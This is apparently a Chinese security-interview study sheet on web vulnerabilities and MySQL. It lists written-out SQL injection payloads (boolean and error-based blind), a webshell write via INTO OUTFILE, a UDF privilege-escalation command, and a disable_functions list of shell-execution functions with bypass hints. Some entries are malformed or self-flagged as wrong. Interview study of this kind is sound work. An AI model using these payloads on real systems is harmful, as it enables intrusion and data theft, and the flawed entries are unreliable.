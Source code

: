-   SQL注入
-   XSS
-   文件遍历、文件上传、文件下载
-   垂直越权、水平越权
-   逻辑漏洞
- ...

## MySQL面试题
### 什么是事务？

事务是一组原子性的SQL语句或者说是一个独立的工作单元，如果数据库引擎能够成功对数据库应用这组SQL语句，那么就执行，如果其中有任何一条语句因为崩溃或其它原因无法执行，那么所有的语句都不会执行。也就是说，事务内的语句，要么全部执行成功，要么全部执行失败

### GPC是什么？GPC之后怎么绕过？

如果`magic_quotes_gpc=On`，PHP解析器就会自动为post、get、cookie过来的数据增加转义字符“\\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符（认为是php的字符）引起的污染。

- 可以尝试从session中提交数据
- 二次编码
- 函数处理;(substr,replace)

### Mysql一个@和两个@什么区别

-   @为用户变量，使用`SET @var1=1`赋值
-   @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`

### 注入/绕过常用的函数

1.  基于布尔SQL盲注
    -   `left(database(),1)>'s'`
    -   `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
    -   `ascii(substr((select database()),1,1))=98`
    -   `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
    -   `regexp`正则注入 `select user() regexp '^[a-z]';`
    -   `select user() like 'ro%'`
2.  基于报错的SQL盲注
    -   `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;`

### 各种写shell的问题

1.  写shell用什么函数？
    -   `select '<?php phpinfo()> into outfile 'D:/shelltest.php'`
    -   `dumpfile`
    -   `file_put_contents`???
2.  outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 [https://www.cnblogs.com/milantgh/p/5444398.html](https://www.cnblogs.com/milantgh/p/5444398.html) //这一条的答案有问题
3.  dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
5.  写shell的条件？
    -   用户权限
    -   目录读写权限
    -   防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 [https://www.waitalone.cn/imagemagic-bypass-disable_function.html](https://www.waitalone.cn/imagemagic-bypass-disable_function.html)
    -   open_basedir: 将用户可操作的文件限制在某目录下
